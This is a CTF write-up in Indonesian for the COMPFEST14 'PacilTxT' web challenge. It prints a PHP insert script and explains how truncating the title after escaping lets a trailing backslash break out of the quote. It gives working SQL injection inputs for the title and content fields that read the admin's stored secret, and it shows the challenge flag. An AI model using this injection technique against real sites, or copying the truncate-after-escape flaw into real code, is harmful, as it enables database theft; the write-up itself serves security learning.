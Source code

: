 # PacilTxT

> Write-up author: jon-brandy (SOLVED)

## DESKRIPSI:
Admin wrote his secret on this website. Can you read it?
`http://103.185.38.238:16729/`

Reference https://portswigger.net/support/sql-injection-in-different-statement-types

[FILE](https://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/f8cf827bbb9adae041931e58fe93acd859885363/Asset/Web%20Exploitation/PacilTxT/submit.php)

## LANGKAH-LANGKAH:
1. Pertama, unduh file `.php` yang diberikan, lalu lihat isinya.

> SUBMIT.PHP

```php

<?php
require_once('koneksi.php');
require_once('utils.php');

if (!isset($_POST['title']) || !isset($_POST['content'])) {
    die('Method not allowed');
} 

$txtCode = gen_random_string(6);
$saveTitle = $db_connect->real_escape_string($_POST['title']);
$txtTitle = substr($saveTitle,0,20);
$txtContent = $db_connect->real_escape_string($_POST['content']);

$query = "INSERT INTO paciltxt_post(code, title, content) VALUES ('".$txtCode."', '".$txtTitle."', '".$txtContent."')";
$sql = $db_connect->query($query);
if ($db_connect->error) {
    header('Location: /');
}

header('Location: /view.php?code='.$txtCode);

```

2. Setelah diperhatikan, value dari variabel `$query` dapat kita manfaatkan kerentanannya.

![image](https://user-images.githubusercontent.com/70703371/185785104-cfb109bd-0371-432a-a37e-0bba025ba460.png)

3. Pada variable `$txtCode` value berisikan 6 strings random.

![image](https://user-images.githubusercontent.com/70703371/185785149-c31772e7-7359-4e90-8e50-919883524344.png)

4. Lalu pada variable `$txtTitle` diketahui value berisikan input strings pada textarea title dengan total 20 karakter maksimal.

![image](https://user-images.githubusercontent.com/70703371/185785198-73cddadb-2e9a-48d5-af1e-348be74284ad.png)

5. Terakhir pada variable `$txtContent` diketahui value berisikan input strings pada textarea content yang pastinya telah diescape setelah diinput atau memiliki escape character di akhir strings.

![image](https://user-images.githubusercontent.com/70703371/185785260-96da96bd-ea75-403b-8290-e9e1ab64ccbb.png)

> PADA TITLE JUGA TERDAPAT ESCAPE STRING

![image](https://user-images.githubusercontent.com/70703371/185785280-f98fed9b-e16f-4aa5-bb5f-cf95c9e85020.png)

> PADA CONTENT

![image](https://user-images.githubusercontent.com/70703371/185785287-4df12559-4bd2-4695-9872-9d361d7329e7.png)

6. Vuln yang dapat dimanfaatkan yaitu dengan melakukan input karakter sebanyak 19 saja karena nantinya `\` yang merupakan karakter dari escape string akan masuk menjadi karakter ke **20**.
7. Sehingga tutup petik yang sesungguhnya akan ter-*escape*.

![image](https://user-images.githubusercontent.com/70703371/185785421-c0036fa2-1b60-4fc6-b3f6-948660e5e947.png)

8. Pada tahap ini kurang lebih query akan menjadi seperti ini:

> NOTES : input isi title dengan -> AAAAAAAAAAAAAAAAAAA\', 

```sql
INSERT TWO paciltxt_post(code, title, content) VALUES ('randStrings' 'AAAAAAAAAAAAAAAAAAA\',  ...
```

9. Lalu pada content, karena kita sudah memiliki kontrol pada value content, saatnya mengubah sintaksnya. Namun perlu diingat untuk menambahkan separator `,` dan menambahkan comment pada **petik tutup** yang tidak diperlukan.
10. Selanjutnya, untuk mengambil value dari paciltxt_post, harus menggunakan aliasing. Hal ini dikarenakan simbol paciltxt_post sudah digunakan sebagai target dari query *INSERT*.
11. Berikut adalah querynya:

> VALUE UNTUK CONTENT

```sql
, (SELECT content FROM paciltxt_post as vuln LIMIT 1))-- ')
```

12. Pada tahap ini query secara lengkap akan tampak seperti berikut:

```sql
INSERT TWO paciltxt_post(code, title, content) VALUES ('randStrings' 'AAAAAAAAAAAAAAAAAAA\', ', (SELECT content FROM paciltxt_post as vuln LIMIT 1))-- ')
```

13. Kesimpulannya pada title inputkan -> `AAAAAAAAAAAAAAAAAAA\` dan pada content inputkan -> `, (SELECT content FROM paciltxt_post as vuln LIMIT 1))-- ')`. Lalu tekan button *post*.

![image](https://user-images.githubusercontent.com/70703371/185786148-e4b3dfb6-8945-477c-9dd4-ddb26ec73ce9.png)

15. Flag pun didapat!

![image](https://user-images.githubusercontent.com/70703371/185786089-3e9a7f4f-1bf2-4e3b-8978-6a4c742d86ac.png)



## FLAG

```
COMPFEST14{k3teLiti4n_4daLAh_kUnTjh1_faabc736c3}
```

## REFERENCES:

```
https://www.w3schools.com/sql/sql_select.asp
https://portswigger.net/support/sql-injection-in-different-statement-types
https://www.databasestar.com/sql-comments/#:~:text=%20To%20add%20a%20comment%20in%20SQL%2C%20you,slash%20and%20asterisk%20%E2%80%9C%2F%203%20%E2%80%9D%20More%20
```
